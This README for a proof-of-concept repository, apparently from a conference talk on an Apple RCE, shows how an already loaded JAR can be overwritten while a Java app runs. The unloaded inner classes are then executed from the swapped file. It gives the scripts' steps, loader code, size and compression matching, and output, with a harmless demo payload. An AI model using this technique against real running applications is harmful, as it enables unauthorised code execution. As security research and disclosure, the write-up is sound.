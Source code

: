 # URLClassLoader hot jar swapping

The following example code shows the ability to hot jar swap an already loaded JAR-file and get code execution by abusing the fact that inner classes when invoked still uses the JAR file when invoked.

Tested on MacOS with OpenJDK (And also exploited on Apple's Author publisher using Transporter).

Demo from Frans Rosén's talk "Story of a RCE on Apple through hot jar swapping" from NahamCon 2022 EU.

## How to run

### `build-and-run.sh`

You run it with:

```
./build-and-run.sh
```

This will:

```
Compile HelloWorld/*.java into HelloWorld.jar
Compile Bootstrapper/*.java into Bootstrapper.jar
Make a copy of HelloWorld.jar into OrigHelloWorld.jar
Run Bootstrapper.jar
```

Bootstrapper will load and run the `HelloWorld.Main`-class using URLClassLoader and will prompt you to run the method `hello` from the `HelloWorld.Secondary`-class that has also already been loaded. This is to control when to replace the JAR that has already been loaded.

```
$ ./build-and-run.sh 
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)
```

You can now decide if you want to click enter without replacing any JAR, this will show the proper code flow from `HelloWorld/Secondary.java`:

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123

This is from the legit postVisitDirectory function:
testdir

End of run, goodbye
```

### `exploit.sh`

The `exploit.sh` will:

```
Compile Exploit/HelloWorld/*.java and move *.class files over to BuildDirForExploit/
Compile a exploit.jar from BuildDirForExploit/-dir
Compare the exploit.jar and OrigHelloWorld.jar using unzip -lv
Tell you if there's a diff or not based on size, compression rate and compression size
Copy exploit.jar over the existing HelloWorld.jar regardless if there's a difference or not
```

If you want to test the hot JAR swapping, run the `exploit.sh` in a different window after you run but before you click enter when calling `build-and-run.sh`:

```
$ ./build-and-run.sh 
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)

## Run this in a different terminal:

$ ./exploit.sh 

NO DIFF IN COMPRESSION, EXPLOIT WILL SUCCEED

-rw-r--r--  1 frans  staff  2281 Dec  9 13:20 rce.jar
-rw-r--r--@ 1 frans  staff  2281 Dec  9 13:20 ../HelloWorld.jar

## Now click enter in the other tab to complete the ./build-and-run.sh)
```

If you now click enter on `./build-and-run.sh` you should successfully see the replaced code instead:

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123
AAAAAAAFGFFFFAAAGAAAAFAAAAAFFFFFAAAFA different code
testdir

End of run, goodbye
```

Showing that we can abuse the fact that inner/anonymous-classes are still being loaded from the physical JAR-file even if the URLClassLoader has already loaded the JAR from before we replaced it.

## Explanation of the issue

This code repo tries to explain that you are able to overwrite already loaded JAR-files to get code execution under a few pre-requisites.

The idea is that the JAR was initially loaded with URLClassLoader:

```
        URL[] classLoaderUrls = new URL[]{new URL("file://" + System.getProperty("user.dir") + "/HelloWorld.jar")};
        URLClassLoader urlClassLoader = new URLClassLoader(classLoaderUrls);
        Class<?> beanClass = urlClassLoader.loadClass("HelloWorld.Main");
        Constructor<?> constructor = beanClass.getConstructor();
        Object beanObj = constructor.newInstance();
        Method method = beanClass.getMethod("hello");
```

And a secondary method was also loaded on boot but never invoked:

```
        // Initiating the secondary class on boot, this is the one we replace the inner class of
        Class<?> secondaryClass = urlClassLoader.loadClass("HelloWorld.Secondary");
        Constructor<?> secondaryConstructor = secondaryClass.getConstructor();
        Object secondaryObj = secondaryConstructor.newInstance();
        Method secondaryMethod = secondaryClass.getMethod("hello");
```

If the JAR is then replaced while the app is running, and the class that was loaded but never had any methods invoked also has inner classes, we're able to make it run different code from the new JAR if the invocation happens later:

```
        // Invoke secondary class hello that contains an inner class
        secondaryMethod.invoke(secondaryObj);
```

So if this method contains an inner-class (They show up in the JAR as `$1.class`) and we replace the inner-class with something with the same size and compression rate, we're able to hot swap the JAR and get our own code to run.

## Explanation of the exploit

The anonymous class from the file `Exploit/HelloWorld/Secondary.java` compiles into the inner class `Exploit/HelloWorld/Secondary$1.class` which has the same size and compression rate as when `HelloWorld/Secondary.java` gets compiled and compressed. If the size or compression rate would differ, you would get a crash when clicking enter in `build-and-run.sh`.
So if you would change `Exploit/HelloWorld/Secondary.java` to for example (`functionn` instead of `function:`):

```
          public FileVisitResult postVisitDirectory(Path dir, IOException exc) throws IOException {
            System.out.println("\nThis is from the legit postVisitDirectory functionn");
            System.out.println(dir);
            return FileVisitResult.CONTINUE;
          }
```

Where the compression result is the same but the compression rate is wrong:

```
$ ./exploit.sh 
6c6
< 1430 643 55% HelloWorld/Secondary$1.class
---
> 1430 644 55% HelloWorld/Secondary$1.class
DIFF IN COMP, EXPLOIT WILL CRASH
-rw-r--r--  1 frans  staff  2280 Dec  9 13:44 exploit.jar
-rw-r--r--@ 1 frans  staff  2281 Dec  9 13:44 ../HelloWorld.jar
```

you would see:

```
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)

Hello from secondary class, here are all files in testdir/

Exception in thread "main" java.lang.reflect.InvocationTargetException
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at Bootstrapper.Main.main(Main.java:38)
Caused by: java.lang.NoClassDefFoundError: HelloWorld/Secondary$1
	at HelloWorld.Secondary.hello(Secondary.java:11)
	... 5 more
Caused by: java.lang.ClassNotFoundException: HelloWorld.Secondary$1
	at java.net.URLClassLoader.findClass(URLClassLoader.java:387)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:418)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:351)
	... 6 more
```

On OpenJDK it seems like if the original size differ but the compression size is the same it still works:

```
          public FileVisitResult postVisitDirectory(Path dir, IOException exc) throws IOException {
            System.out.println("AAAADDAAAAAAAAAFFAAAAAAAAAAAAAFFAAAAGGAAGGAAAGPTAAFPFAFPAPA");
            System.out.println(dir);
            return FileVisitResult.CONTINUE;
          }
```

```
$ ./exploit.sh 
6c6
< 1437 644 55% HelloWorld/Secondary$1.class
---
> 1430 644 55% HelloWorld/Secondary$1.class
9c9
< 2895 45% 5
---
> 2888 45% 5
DIFF IN COMP, EXPLOIT WILL CRASH
-rw-r--r--  1 frans  staff  2281 Dec  9 13:52 exploit.jar
-rw-r--r--@ 1 frans  staff  2282 Dec  9 13:52 ../HelloWorld.jar
```

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123
AAAADDAAAAAAAAAFFAAAAAAAAAAAAAFFAAAAGGAAGGAAAGPTAAFPFAFPAPA
testdir
```

The `exploit.sh` will still say it's a difference as it might not work in all versions.

You will also see that if you change things in `Exploit/HelloWorld/Secondary.java` outside of the inner-class, such as:

```
System.out.println("\nEnd of run, goodbye");
```

into:

```
System.out.println("\nEnd of run, goodbya");
```

which will make the `Secondary.class` be the same compression rate and size, it will still not trigger the replaced content, since the class is already loaded by URLClassLoader, confirming that this is only affecting inner-classes (the ones named `$1.class` in the JAR) since they are loaded from the JAR-file when used:

```
End of run, goodbye
```